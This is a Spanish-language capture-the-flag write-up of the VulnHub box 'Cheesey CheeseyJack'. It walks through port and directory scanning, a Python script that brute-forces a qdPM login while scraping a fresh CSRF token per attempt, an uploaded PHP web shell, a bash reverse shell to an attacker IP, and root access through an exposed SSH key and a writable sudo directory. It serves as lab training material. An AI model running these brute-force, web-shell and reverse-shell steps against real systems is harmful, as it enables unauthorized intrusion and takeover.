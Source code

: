```yaml
---
layout: single
title: Cheesey CheeseyJack - VulnHub
excerpt: " Cheeseyjack aims to be an easy to medium level real-world-like box. Everything on this box is designed to make sense, and possibly teach you something. Enumeration will be key when attacking this machine.
Hint: A cewl tool can help you get past a login page. "
date: 2023-01-26
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-cheesey/cheesey.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - burpsuite
  - php
  - csrf
  - python
  - sudoer
---
```


Cheeseyjack aims to be an easy to medium level real-world-like box. Everything on this box is designed to make sense, and possibly teach you something. Enumeration will be key when attacking this machine.
Hint: A cewl tool can help you get past a login page.

# Summary
- IP: 192.168.0.112
- Ports: 22,80,111,139,445,2049,33060,43217,45135,50397,55855
- OS: Linux (Ubuntu Focal)
- Services & Applications:
	-  22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
	-  80 -> Apache httpd 2.4.41
	-  11 -> 2-4 (RPC #100000)
	-  139 -> Samba smbd 4.6.2
	-  445 -> Samba smbd 4.6.2
	-  2049 -> 3 (RPC #100227)
	-  33060 -> mysqlx?
	-  43217 -> mountd      1-3 (RPC #100005)
	-  45135 -> nlockmgr    1-4 (RPC #100021)
	-  50397 -> mountd      1-3 (RPC #100005)
	-  55855 -> mountd      1-3 (RPC #100005)

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.0.112 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,80,111,139,445,2049,33060,43217,45135,50397,55855 -sCV 192.168.0.112 -oN targeted
```

- Análisis de directorios con gobuster:

```bash
gobuster dir -u 192.168.0.112 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200

gobuster dir -u 192.168.0.112/project_management -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```

- Análisis RPC (ya que está abierto el puerto 2049):

```bash
showmount -e 192.168.0.112
```

- Vemos un posible usuario "ch33s3m4n", montamos el directorio encontrado pero no encontramos nada interesante.

# Análisis de página web:

- Analizamos la página principal pero no encontramos nada que podamos explotar.

- Analizamos los directorios encontrados:

	- En "/it_security" encontramos un archivo de texto el cual revela que la contraseña del usuario "cheese" es muy fácil.

	- En "/project_management" encontramos un login de "qdpm".

- Probamos varios ataques de SQLI en el login, sin resultados.

- Nos pide "email" y "contraseña", vemos un posible dominio "cheeseyjack.local" por lo que un posible email válido podría ser el que encontramos anteriormente ```"ch33s3m4n@cheeseyjack.local"```

# Ataque CSRF Token para obtener contraseña de usuario:

- Usamos la información obtenida hasta ahora para hacer un ataque de fuerza bruta con un diccionario creado por nosotros mismos recopilando todas las palabras claves de las páginas a las que hemos tenido acceso hasta ahora:

```bash
$cewl http://192.168.0.112 -w passwords.txt

$cewl http://192.168.0.112/project_management >> passwords.txt

$cat passwords.txt | sort -u | sponge passwords.txt 

$cat passwords.txt | wc -l
```

- Interceptamos con Burpsuite la petición al intentar logear para obtener los datos emitidos como POST.

```html
login[_csrf_token]=ccfb459f3c07c6f5c12c553a3788693e&login[email]=che@hotmail.com&login[password]=asdsad&http_referer=http://192.168.0.112/project_management/
```

- Nos damos cuenta que aparte del email y el password, se emite un token el cual se genera de forma aleatoria al realizar la petición, con la ayuda de expresiones regulares (regex) nos creamos una script en python para automatizar el ataque de fuerza bruta, probando cada contraseña del diccionario creado y generando un token para cada petición:



```python
#!/usr/bin/python3

from pwn import *
import requests, sys, time, signal, pdb, re

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

#Variable globales
login_url = "http://192.168.0.112/project_management/index.php/login"

def makeBruteForce():
	f = open("passwords.txt", "r")

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")

	time.sleep(2)
	counter = 1
	
	for password in f.readlines():
		password = password.strip()	

		p1.status("Probando con la contraseña [%d/149]: %s" % (counter,password) )

		s = requests.session()
		
		r = s.get(login_url)
		
		token = re.findall(r'_csrf_token]" value="(.*?)"', r.text)[0]
		
		data_post = {
			'login[_csrf_token]': token,
			'login[email]': 'ch33s3m4n@cheeseyjack.local',
			'login[password]': password,
			'http_referer': 'http://192.168.0.112/project_management/'
		}
		r = s.post(login_url, data = data_post)

		if "No match" not in r.text:
			p1.success ("La contraseña es %s" %password)
			sys.exit(0)
		counter += 1
			
if __name__ == '__main__':
makeBruteForce()


```

- Ejecutando la script, obtenemos la credencial "qdpm", accedemos como ```"ch33s3m4n@cheeseyajck.local".```

- Analizamos el dashboard de qdpm; en la pestaña "Projects" y "add projects" se nos permite subir un proyecto y adjuntar un archivo en la parte de "attachments", subimos un archio PHP malicioso con código que  nos permita ejecutar comandos de forma remota (RCE) mediante el parámetro "cmd":

```php
<?php echo passthru($_GET['cmd']); ?>
```

- Accedemos al directorio "/uploads" encontrado anteriormente en la fase de reconocimiento y en la carpeta de "attachments" abrimos el archivo php creado.

```
http://192.168.0.112/project_management/uploads/attachments/465440-cmd.php?cmd=whoami
```


- Nos entablamos una reverse shell básica y ganamos acceso al sistema:

```
http://192.168.0.112/project_management/uploads/attachments/465440-cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.108/443 0>%261"
```



# ESCALANDO PRIVILEGIOS:

- Dentro de la carpeta "home" encontramos al usuario "crab", entramos y leemos el archio "todo.txt"

- El archivo nos dice sobre un backup de SSH el cual está alojado en el directorio "/var/backups"

- En ese directorio encontramos otro directorio llamado "/ssh-bak", entramos y encontramos una clave privada de SSH para poder acceder sin contraseña, lo hacemos:

- Creamos un archivo "key.txt" que contenga la SSH private key, le damos permiso de ejecución y accedemos via SSH como "crab":

```bash
chmod 600 key.txt

ssh -i key.txt crab@192.168.0.112
```

- Verificamos permisos de sudoers y encontramos lo siguiente:

```
(root) NOPASSWD: /home/crab/.bin/
```

- Es decir, podemos ejecutar cualquier binario de aquel directorio como "root" sin proporcionar contraseña, entonces, al tener permisos de escritura, dentro de ese directorio creamos un binario simple que otorgue permisos SUID a la bash:

```bash
nano pwned
```

```
chmod u+s /bin/bash
```

```bash
chmod +x bash
sudo /home/crab/.bin/bash
```

- Ahora ejecutamos la bash con los privilegios de root y ganamos acceso total a la máquina:

```bash
bash -p
```

